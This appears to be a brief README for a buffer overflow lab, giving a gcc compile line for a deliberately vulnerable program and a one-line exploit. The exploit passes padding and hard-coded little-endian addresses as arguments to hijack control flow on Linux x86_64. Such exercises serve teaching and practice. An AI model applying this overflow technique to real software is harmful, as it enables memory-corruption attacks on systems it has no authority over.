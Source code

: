 ### Compile
```
gcc -g -o buffovf buffovf.c
```

### Exploit
```
./buffovf `echo -ne "AAAAAAAABBBBBBCCCCCCCCDDDDDDDDEEEEEEEE\x38\x10\x60"` `echo -ne "\x80\x06\x40"`
```

### Note
The vulnerable binary for Linux x86_64 is provided along with the code and soln.

If compiled on a different platform or architecture, this exploit may need some tweeking.
However, the general format of the exploit will remain similar.
